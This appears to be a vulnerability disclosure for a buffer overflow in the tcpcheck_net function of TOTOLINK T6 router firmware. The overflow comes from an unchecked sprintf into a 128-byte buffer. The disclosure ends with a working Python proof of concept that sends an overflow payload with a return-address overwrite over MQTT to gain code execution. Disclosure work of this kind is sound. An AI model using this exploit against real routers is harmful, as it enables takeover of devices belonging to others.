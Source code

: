# Information

**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Affected products:** [T6](https://www.totolink.net/home/menu/newstpl/menu_newstpl/products/id/190.html)

**Affected firmware version:** V4.1.5cu.748_B20211015

**Firmware download address:** [Download Page](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/190/ids/36.html)

# Overview

TOTOLINK Mesh Wifi T6 router has a buffer overflow vulnerability in shared library that lead to RCE.

# Vulnerability details

The `T6` routers has many shared library that will be loaded in memory when running. In function `tcpcheck_net`, the `v7` buffer is 128 bytes, and the `sprintf` doesn't check for the length of input.

![](9/1.png)

An attacker can send a malicious packet (both `MQTT` and `HTTP`) and overwrite the saved return address, lead it to RCE.

![](9/2.png)

# POC

In this POC, I use the chain: `meshSlaveDlfw` -> `safe_cs_pub` -> `tcpcheck_net`.

```python
import paho.mqtt.client as mqtt

payload = b"A" * (0xa0 - 31 - 8) + b"\x37\x33\x33\x13"

mqtt_data = b'''
    {
        "serverIp":"%s"
    }
''' % payload

client = mqtt.Client()
client.connect("192.168.0.1", 1883, 60)
client.publish("totolink/router/meshSlaveDlfw", mqtt_data)
```